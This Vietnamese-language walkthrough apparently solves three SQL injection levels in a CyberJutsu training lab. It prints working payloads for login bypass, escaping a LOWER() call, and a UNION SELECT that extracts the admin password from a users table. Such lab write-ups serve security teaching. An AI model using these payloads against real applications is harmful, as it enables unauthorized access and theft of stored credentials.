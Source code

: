 Đề bài cho một form đăng nhập như sau:

![1](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/1.jpg?raw=true)

Ở phía dưới sẽ là chỉ dẫn khai thác

![2](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/2.jpg?raw=true)

> Chú ý: Bản chất của `Injection` là khiến cho hệ thống hiểu lầm `user input` là các `instruction`

Sử dụng dấu comment trong sql là `--` để bỏ qua phần còn lại của câu truy vấn như sau:

![3](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/3.jpg?raw=true)

> Hoăc: admin' OR 1=1 #

> SELECT \* FROM users WHERE username='admin' OR 1=1 -- ' AND password='hihi'

Dump database thành công

![4](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/4.jpg?raw=true)

Bây giờ tiếp tục với level 2 với thử thách tương tự , tôi thử với `username input` như sau: `admin" --`

- Sau đó tôi nhìn xuống phần lệnh ở dưới và tiếp tục phán đoán `SELECT * FROM users WHERE username=LOWER("admin" -- ") AND password=MD5("")`

- Bây giờ tôi sẽ tìm cách thoát khỏi cặp ngoặc của lệnh `LOWER` như sau: `admin") --`

  ![6](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/6.jpg?raw=true)

  > SELECT \* FROM users WHERE username=LOWER("admin") --") AND password=MD5("")

- Bây giờ rất quen thuộc sử dụng thêm toán tử OR để làm cho điều kiện `WHERE` trở lên luôn đúng

  > admin")OR("

  - Và bùm database đã được dump ra

  ![7](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/7.jpg?raw=true)

  ![8](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/8.jpg?raw=true)

Thử thách cuối cùng của phần `Sandbox` lần này là sử dụng câu lệnh `Union` để lấy được `password` của `username` là `admin`, tôi sẽ nhập để xem phần `SELECT` đằng trước là gì

![9](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/9.jpg?raw=true)

- Có thể thấy đằng trước là `SELECT * FROM news WHERE content LIKE '%admin%'` lấy ra id và nội dung của bài post, nó sẽ trả về là 2 cột
- Do câu lệnh `UNION` để có thể kết hợp được thì số lượng cột trả về cũng phải giống nhau và cùng kiểu dữ liệu nên tôi sẽ thoát dấu nháy và lấy ra `username` và `password` như sau:

  > %' UNION SELECT username , password from users WHERE username = 'admin'

  ![10](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/10.jpg?raw=true)

- Có thể thấy nó trả về những 4 row nhưng yêu cầu chỉ in ra `password` của `admin` nên tôi sẽ nghĩ đến việc bỏ qua các bản ghi của câu select đầu và giới hạn chỉ in ra duy nhất 1 bản ghi như sau:
  > %' UNION SELECT username , password from users WHERE username = 'admin' LIMIT 1 OFFSET 3 --

Và done bài cuối cùng

![11](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/11.jpg?raw=true)

![12](https://github.com/Giangattt123/C4ptur3_Th3_Fl4g/blob/master/CyberjutsuLab/SQL-Injection/SQL-Injection-1/Sandbox/images/12.jpg?raw=true)
